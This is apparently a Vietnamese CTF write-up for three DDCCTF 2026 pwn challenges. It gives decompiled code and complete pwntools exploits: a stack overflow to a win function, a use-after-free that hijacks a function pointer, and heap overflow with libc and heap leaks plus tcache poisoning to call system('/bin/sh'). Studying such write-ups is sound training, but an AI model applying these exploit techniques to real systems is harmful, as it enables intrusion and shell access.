







## Introduction
Tại giải này thì hầu như các team đều làm được 15/16 challenges, câu đánh đố nhất là bài misc thứ 4 tác giả lấy từ final để phân hạng top 1 top 2. Team mình thì đứng vị trí 3x nên đã bị loại khỏi giải đấu sad -.- 


[Source và script](https://github.com/hakaii59/Binary-Exploitation/tree/main/2026/DDCCTF) 
## PwnChallenge1
Reverse Source Code phát hiện tại hàm `process_punchcard()` có bug buffer-overflow.
```c
int process_punchcard()
{
  char s[68]; // [esp+0h] [ebp-48h] BYREF

  puts(asc_804A4AC);
  puts(asc_804A554);
  puts(asc_804A594);
  puts(asc_804A5D4);
  printf("  CARD> ");
  fflush(stdout);
  gets(s);
  printf("  READING CARD: [%.40s", s);
  if ( strlen(s) > 0x28 )
    printf("...");
  puts("]");
  puts("  CARD ACCEPTED. Processing neural weights...");
  puts("  ERROR: Inference failed — invalid weight matrix.");
  return fflush(stdout);
}
```
Hàm win để lấy được flag.
```c
void __noreturn win()
{
  char *v0; // [esp+Ch] [ebp-Ch]

  v0 = getenv("FLAG");
  if ( !v0 )
    v0 = "flag{local_test_vintage_pwn}";
  puts(byte_804A02A);
  puts(asc_804A02C);
  puts(asc_804A0D8);
  puts(asc_804A160);
  puts(asc_804A1C8);
  puts(asc_804A234);
  puts(asc_804A298);
  puts(asc_804A308);
  puts(asc_804A3B4);
  puts(asc_804A308);
  printf(asc_804A3F4, v0);
  puts(asc_804A400);
  puts(byte_804A02A);
  fflush(stdout);
  _exit(0);
}
```
Exploit:
```python
#!/usr/bin/env python3

from pwn import *
exe = ELF('./punchcard', checksec=False)
context.binary = exe
info = lambda msg: log.info(msg)
if args.REMOTE:
    p = remote('222.255.138.122', 10075)
else:
    p = process([exe.path])
offset = 76
payload = b'A' * offset
payload += p32(exe.sym.win)
p.recvuntil(b'inference')
p.sendline(payload)
p.interactive()
```
Kết quả:

## PwnChallenge2
### Reverse Engineering
Hai hàm `value_alloc()` và `value_free()` là một freelist LIFO, free rồi alloc lại ngay sau đó thì nó sẽ trả về đúng địa chỉ vừa free.
```cpp
void *value_alloc() {
    if (g_free_values) {
        JsonValue *v = g_free_values;
        g_free_values = g_free_values->child;
        return v;
    }
    return malloc(sizeof(JsonValue));
}

void value_free(JsonValue *v) {
    if (!v) return;
    v->child = g_free_values;
    g_free_values = v;
}
```
Hàm `cmd_delete()` bị bug UAF vì không set NULL con trỏ sau khi free.
```cpp
void cmd_delete(const char *key) {
    if (!g_model || !g_model->child) {
        puts("error: no nested object");
        return;
    }
    if (strcmp(g_loaded_key, key) != 0) {
        puts("error: key not found");
        return;
    }
    value_free(g_model->child);
    puts("ok: node deleted");
}
```
Hàm `cmd_alloc()` cấp phát một JSonValue mới rồi memcpy toàn bộ 8 qword do người dùng nhập đè lên nó => kiểm soát được type, length, data[40], child, và action của node.
```cpp
void cmd_alloc(const char *encoded) {
    unsigned long long words[8] = {0};
    int parsed = sscanf(encoded, "%llx %llx %llx %llx %llx %llx %llx %llx",
                        &words[0], &words[1], &words[2], &words[3],
                        &words[4], &words[5], &words[6], &words[7]);
    if (parsed < 8) {
        puts("error: expected 8 encoded fields");
        return;
    }
    JsonValue *v = (JsonValue *)value_alloc();
    if (!v) exit(1);
    memcpy(v, words, sizeof(words));
    puts("ok: training sample queued");
}
```
Hàm `cmd_run()` gọi hàm `infer_value(g_model->child)`
```cpp
void cmd_run() {
    puts("[runtime] preparing local model");
    if (!g_model || !g_model->child) {
        puts("[runtime] no nested layer configured");
        return;
    }
    infer_value(g_model->child);
    puts("[runtime] inference complete");
}
```
Lợi dụng việc ghi đè JSonValue ta có thể ghi `v->action(v->data)` thành `lauch_shell(/bin/sh)` để lấy shell.
```cpp
extern "C" void launch_shell(const char *cmd) {
    if (!cmd || strncmp(cmd, "/bin/sh", 7) != 0) {
        puts("[runtime] invalid model action");
        return;
    }
    system(cmd);
}
```
Hàm `cmd_load()` minh hoạ như hình vẽ dưới:


### Exploit Stategy
Để thực hiện việc gọi hàm `infer_value(g->model)` ta phải bypass điều kiện thứ nhất `if (!g_model || !g_model->child)`. Biến `g_model` thì đã có giá trị nhờ hàm `init_model` còn biến `g_model->child` ta phải sử dụng hàm `cmd_load()`, bởi vì trong hàm này khởi tạo một JSonValue mới sau đó gán nó vào biến `g_model->child` Vậy là chúng ta đã đủ điều kiện.
```python
p.sendlineafter(b'> ', b'load {"a":"b"}')
```
Tiếp theo để kiểm soát biến `v->data` và `v->action` của `g_model->child` thì ta phải lợi dụng cơ chế LIFO của freelist kết hợp với bug UAF trong `cmd_delete()`.


Sau khi `cmd_load()` cấp phát node và gán vào `g_model->child`, ta gọi `cmd_delete()` để free node đó. Lúc này `g_model->child` vẫn trỏ tới vùng nhớ vừa free và địa chỉ đó nằm ở đầu freelist. `cmd_alloc()` gọi `value_alloc()`, nó sẽ trả về **đúng địa chỉ đó** đầu freelist rồi `memcpy` ghi đè toàn bộ struct theo ý muốn.
```python
p.sendlineafter(b'> ', b'del a')
data = b"/bin/sh\x00" + b"\x00" * 32   
w0 = 0                                  
w1 = u64(data[0:8])
w2 = u64(data[8:16])
w3 = u64(data[16:24])
w4 = u64(data[24:32])
w5 = u64(data[32:40])
w6 = 0                                
w7 = 0x401510
p.sendlineafter(b'> ', f"sample {w0:x} {w1:x} {w2:x} {w3:x} {w4:x} {w5:x} {w6:x} {w7:x}".encode())
p.sendlineafter(b'> ', b'run')
```
Getshell!

## PwnChallenge3
### Enumeration
Cơ chế bảo mật của file:


### Reverse Engineering
Reverse lại struct để tiện trong quá trình phân tích
```c
struct VectorSlot {            // 0x38 byte
    uint32_t dims;              // +0x00
    uint32_t _pad;               // +0x04
    void    *data;               // +0x08  (con trỏ malloc)
    char     name[32];           // +0x10
    uint32_t active;             // +0x30
    uint8_t  _pad2[4];           // +0x34
};
```
Chức năng UPLOAD cho phép mình OOB write. Biến `byte_count` hoàn toàn do người dùng kiểm soát và không bị so sánh với kích thước 4*dims đã cấp phát. Ta có thể cấp phát 1 chunk nhỏ rồi khai báo `byte_count` lớn tuỳ ý => Trigger Heap Overflow.
```c
if ( (unsigned int)__isoc99_scanf("%u", &byte_count) == 1 )
{
    written = 0;
    getc(stdin);
    while ( byte_count > written )
    {
    n = read(0, &vec_data[written], byte_count - written);// HEAP OVERFLOW
    if ( n <= 0 )
        break;
    written += n;
    }
```
Chức năng QUERY cho phép mình OOB read. Biến `fmt` không giới hạn được người dùng kiểm soát -> có thể đọc bất kỳ vị trí nào.
```c
if ( (unsigned int)__isoc99_scanf("%u", &fmt) == 1 )
{
__printf_chk(1, "Count: ");
fflush(stdout);                     // byte_count reused here as QUERY's Count (bounded: rejected if > 0x100)
if ( (unsigned int)__isoc99_scanf("%u", &byte_count) == 1 )
{
    if ( byte_count > 0x100 )
    {
    puts("[-] Count too large");
    }
    else
    {
    i = 0;
    __printf_chk(1, "[*] Vector '%s' [%u..%u]:\n", g_slots[dims].name, fmt, byte_count + fmt - 1);
    while ( i < byte_count )
    {
        idx = i + fmt;
        ++i;
        raw = *(_QWORD *)((char *)g_slots[dims].data + 4 * idx);
        __printf_chk(1, "  [%u] %f (raw: 0x%016lx)\n", idx, *(float *)&raw, raw);
```
Hàm `SEARCH` với chứng năng `SEARCH text` nó chỉ in ra một thông báo hiển thị chuỗi và độ dài của `text`. 
```c
 if ( !strncasecmp(cmd_buf, "SEARCH ", 7u) )
        {
          search_len = strlen_ptr(search_arg);
          __printf_chk(1, "[*] Searching embeddings for: '%s' (len=%zu)\n", search_arg, search_len);
          puts("[*] No matches found.");
        }
```
Địa chỉ hàm `strlen_ptr` là `0x404010` nằm ở phân vùng bss. Ta có thể ghi đè được giá trị của địa chỉ này.

Đây cũng là mấu chốt của đề bài để lấy được shell. Bởi vì attacker có thể ghi đè `strlen_ptr` thành `system`, rồi truyền giá trị "/bin/sh" vào biến `search_arg`. Từ đó strlen_ptr(search_arg) => system("/bin/sh")

### Exploit strategy
Setup heap
```python
UPLOAD(0, 1, 1, data = b'AAAA')     #dùng để oob read
UPLOAD(1, 0x110, 1, data = b'AAAA') #chunk lớn có kích thước để đưa vào unsortedbin
UPLOAD(2, 1, 1, data=b'AAAA')       #chunk bé
UPLOAD(3, 0x10, 1, data=b'AAAA')    
UPLOAD(4, 0x10, 1, data=b'AAAA')
DELETE(2)                           #free để leak heap
DELETE(1)                           #free để leak libc
```
Leaking heap và libc.
```python
QUERY(0, 0x20//4)
p.recvuntil(b'(raw: ')
libc.address = int(p.recvuntil(b')', drop=True), 16) - 0x21ace0
info("libc base: " + hex(libc.address))
QUERY(0, 0x470//4)
p.recvuntil(b'(raw: ')
heap_base = int(p.recvuntil(b')', drop=True), 16) << 12
info("heap base: " + hex(heap_base))
```
Output:

Tcache poisoning và overwrite để lấy được shell.
```python
DELETE(4)
DELETE(3)
UPLOAD(5, 1, 1, data=b'A'*0x18 + p64(0x51) + p64(0x404010 ^ (heap_base >> 12)))
UPLOAD(6, 0x10, 1, data=b'AAAA')
UPLOAD(7, 0x10, 1, data=p64(libc.sym.system))
p.sendlineafter(b"> ", b"SEARCH /bin/sh")
```
Getshell!


